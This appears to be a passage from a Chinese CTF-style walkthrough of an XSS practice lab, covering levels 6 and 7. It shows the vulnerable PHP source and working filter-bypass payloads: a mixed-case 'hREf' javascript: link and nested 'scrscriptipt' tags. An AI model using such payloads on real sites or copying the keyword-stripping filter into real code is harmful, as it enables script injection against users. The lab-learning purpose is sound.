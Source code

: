 ### 过程(未知源码的情况下)

与上一关一样，推测不仅将`on`替换成`o_n`，还将`<script>`替换成`<scr_ipt>`。

用上一关的payload——`" ><a href = "javascript:alert(1)" >click</a>`，发现`href`也被处理成`hr_ef`。

***尝试换成大写的`hREf`——`" ><a hREf = "javascript:alert(1)" >click</a>`，过关。***

​	

​	

## 第七关

![](https://pic.imgdb.cn/item/64c8927f1ddac507cc7c3a7a.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level7</h1>
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level7.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
```

### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<input name=keyword  value="<scr<script>ipt>on\&apos;\"'<>">
```

推测将`script`和`on`删了。

***构造payload：`"><scrscriptipt>alert(1)</scrscriptipt>`，过关。***
